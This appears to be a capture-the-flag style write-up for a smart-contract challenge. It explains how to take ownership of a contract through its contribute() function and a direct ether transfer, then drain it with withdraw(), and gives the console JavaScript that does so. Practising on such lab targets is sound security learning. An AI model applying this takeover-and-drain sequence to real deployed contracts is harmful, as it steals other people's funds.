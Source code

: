 /**
 *
# Objective

1. Become owner
2. Drain contract

# Solution

1. Note that whoever can pay the contract becomes the onwer
2. Note that it requires you to pay something and to have made a contribution
3. Note that contribute() is public and you need to send less than 0.001 ether.
4. Note that we can also become the owner if we make looooots of small transaction so that we surpass the owner... this is more expensive though and annoying so let's just do it the easy way:

```
contract.contribute({"value": toWei("0.0001")});
contract.send(toWei("0.0001"));

// sanity check, check owner is now player, first objective achieved
console.assert(await contract.owner() == player);

// withdraw everything
contract.withdraw();
```

# Learned

* Libraries like to receive their numbers as strings to avoid problems with floating point numbers.
* You really have to spam that `await` using the console.

*/
